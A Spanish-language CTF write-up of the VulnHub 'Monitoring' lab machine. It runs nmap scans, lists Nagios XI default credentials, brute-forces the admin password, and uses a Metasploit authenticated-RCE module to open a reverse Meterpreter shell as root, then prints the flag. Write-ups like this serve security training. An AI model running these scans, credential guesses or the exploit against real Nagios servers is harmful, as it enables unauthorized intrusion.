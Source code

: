 # Write Up Monitoring VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 06:11 EDT
Nmap scan report for 192.168.5.193
Host is up (0.00022s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:22:4F:D1 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.89 seconds
```

Si nos vamos al puerto 80 normal encontramos un boton que nos lleva a un login de `nagios` el cual parece vulnerable, si buscamos en google las credenciales por defecto de un `nagios` vemos lo siguiente...

```
root/nagiosxi

o tambien

nagiosadmin/nagiosadmin
```

Si probamos no nos va a ir ninguna, pero si hacemos fuerza bruta con el usuario `nagiosadmin` para adivinar la `password` vemos que es `admin`, por lo que nos vamos a `metasploit`...

```shell
msfconsole -q

> use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
> set RHOSTS <IP>
> set PASSWORD admin
> set LHOST <YOUR_IP>
> run
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.175:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.6.0.
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045380 bytes) to 192.168.5.193
[*] Meterpreter session 1 opened (192.168.5.175:4444 -> 192.168.5.193:59266) at 2024-06-19 07:00:33 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter >
```

Con esto ya habriamos vulnerado la maquina y seriamos el usuario `root`, por lo que leeremos la flag...

> proof.txt (flag\_final)

```
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```
